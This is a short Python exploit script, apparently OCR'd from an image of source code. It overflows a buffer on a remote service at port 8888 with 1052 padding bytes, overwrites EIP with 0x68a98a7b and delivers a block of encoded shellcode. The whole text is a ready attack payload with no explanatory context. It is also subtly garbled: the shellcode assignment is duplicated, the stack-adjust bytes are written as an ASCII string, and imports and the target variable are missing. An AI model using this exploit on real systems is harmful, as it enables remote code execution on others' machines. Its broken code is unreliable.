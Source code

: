 ```python
def executeExploit():
    shellcode = (shellcode = (b"\xba\xf8\x9f\xaf\x72\xda\xce\xd9\x74\x24\xf4\x5d\x31\xc9\xb1"
        b"\x52\x31\x55\x12\x83\xc5\x04\x03\xad\x91\x4d\x87\xb1\x46\x13"
        b"\x68\x49\x97\x74\xe0\xac\xa6\xb4\x96\xa5\x99\x04\xdc\xeb\x15"
        b"\xee\xb0\x1f\xad\x82\x1c\x10\x06\x28\x7b\x1f\x97\x01\xbf\x3e"
        b"\x1b\x58\xec\xe0\x22\x93\xe1\xe1\x63\xce\x08\xb3\x3c\x84\xbf"
        b"\x23\x48\xd0\x03\xc8\x02\xf4\x03\x2d\xd2\xf7\x22\xe0\x68\xae"
        b"\xe4\x03\xbc\xda\xac\x1b\xa1\xe7\x67\x90\x11\x93\x79\x70\x68"
        b"\x5c\xd5\xbd\x44\xaf\x27\xfa\x63\x50\x52\xf2\x97\xed\x65\xc1"
        b"\xea\x29\xe3\xd1\x4d\xb9\x53\x3d\x6f\x6e\x05\xb6\x63\xdb\x41"
        b"\x90\x67\xda\x86\xab\x9c\x57\x29\x7b\x15\x23\x0e\x5f\x7d\xf7"
        b"\x2f\xc6\xdb\x56\x4f\x18\x84\x07\xf5\x53\x29\x53\x84\x3e\x26"
        b"\x90\xa5\xc0\xb6\xbe\xbe\xb3\x84\x61\x15\x5b\xa5\xea\xb3\x9c"
        b"\xca\xc0\x04\x32\x35\xeb\x74\x1b\xf2\xbf\x24\x33\xd3\xbf\xae"
        b"\xc3\xdc\x15\x60\x93\x72\xc6\xc1\x43\x33\xb6\xa9\x89\xbc\xe9"
        b"\xca\xb2\x16\x82\x61\x49\xf1\x6d\xdd\x51\x11\x06\x1c\x51\x10"
        b"\x6d\xa9\xb7\x78\x81\xfc\x60\x15\x38\xa5\xfa\x84\xc5\x73\x87"
        b"\x87\x4e\x70\x78\x49\xa7\xfd\x6a\x3e\x47\x48\xd0\xe9\x58\x66"
        b"\x7c\x75\xca\xed\x7c\xf0\xf7\xb9\x2b\x55\xc9\xb3\xb9\x4b\x70"
        b"\x6a\xdf\x91\xe4\x55\x5b\x4e\xd5\x58\x62\x03\x61\x7f\x74\xdd"
        b"\x6a\x3b\x20\xb1\x3c\x95\x9e\x77\x97\x57\x48\x2e\x44\x3e\x1c"
        b"\xb7\xa6\x81\x5a\xb8\xe2\x77\x82\x09\x5b\xce\xbd\xa6\x0b\xc6"
        b"\xc6\xda\xab\x29\x1d\x5f\xdb\x63\x3f\xf6\x74\x2a\xaa\x4a\x19"
        b"\xcd\x01\x88\x24\x4e\xa3\x71\xd3\x4e\xc6\x74\x9f\xc8\x3b\x05"
        b"\xb0\xbc\x3b\xba\xb1\x94"))
    offset = 1052
    before_eip = b"A" * offset
    eip = pack("<I", 0x68a98a7b)

    payload = before_eip + eip + b"83ec10" + shellcode

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((remoteAddress, 8888))
    s.send(payload)

if __name__ == "__main__":
    executeExploit()
```

